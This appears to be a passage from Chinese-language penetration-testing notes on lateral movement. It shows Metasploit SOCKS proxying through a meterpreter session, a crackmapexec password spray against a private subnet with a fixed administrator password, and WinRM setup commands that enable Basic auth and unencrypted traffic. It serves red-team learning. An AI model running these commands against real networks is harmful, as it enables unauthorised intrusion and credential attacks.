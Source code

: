 
#### 开启msf代理

```bash
$meterpreter > background
$msf6 exploit(multi/handler) > use auxiliary/server/socks_proxy
$msf6 auxiliary(server/socks_proxy) > set SRVPORT 2233
$msf6 auxiliary(server/socks_proxy) > run
```

![](img/50.png)

更改proxychains.conf

```
vim /etc/proxychains.conf
```

**密码喷射**

```bash
proxychains crackmapexec smb 192.168.91.1-127 -u administrator -p 'Abcd1234!@#'
```

## WINRM横向

WinRM代表Windows远程管理，是一种允许管理员远程执行系统管理任务的服务。默认情况下支持Kerberos和NTLM身份验证以及基本身份验证。
条件：

* **双方都启用的Winrm rs的服务**
* 目标系统防火墙已事先允许5985(HTTP SOAP)或5986(HTTPS SOAP)端口连入
* 使用此服务需要管理员级别凭据。
* Windows2008以下版本默认自动状态，Windows Vista/win7上必须手动启动；
* Windows 2012之后的版本默认允许远程任意主机来管理。


### 开启配置

```bash
# winrm service 默认都是未启用的状态，先查看状态；如无返回信息，则是没有启动
winrm enumerate winrm/config/listener

# 针对winrm service 进行基础配置：
winrm quickconfig

# 查看`winrm service listener`
winrm e winrm/config/listener

# 为winrm service 配置auth:
winrm set winrm/config/service/auth @{Basic="true"}

# 为winrm service 配置加密方式为允许非加密：
winrm set winrm/config/service @{AllowUnencrypted="true"}
```
